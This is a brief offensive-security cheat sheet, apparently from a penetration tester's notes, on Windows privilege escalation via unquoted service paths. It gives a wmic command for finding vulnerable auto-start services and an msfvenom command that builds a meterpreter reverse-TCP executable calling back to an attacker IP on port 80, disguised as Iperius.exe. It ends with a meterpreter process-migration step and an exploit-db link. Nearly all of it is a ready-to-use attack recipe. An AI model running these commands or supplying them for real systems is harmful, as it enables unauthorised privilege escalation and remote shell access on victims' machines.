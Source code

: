 # Unquoted Service Paths

Check for vulnerable services

```text
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```

Create a payload and restart the service / reboot the host.

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.189 LPORT=80 EXITFUNC=thread -f exe -o Iperius.exe
```

Start multi handler and migrate to new process \(meterpreter\)

```text
run post/windows/manage/migrate
```

Here's a good example to follow: [https://www.exploit-db.com/exploits/48543](https://www.exploit-db.com/exploits/48543)



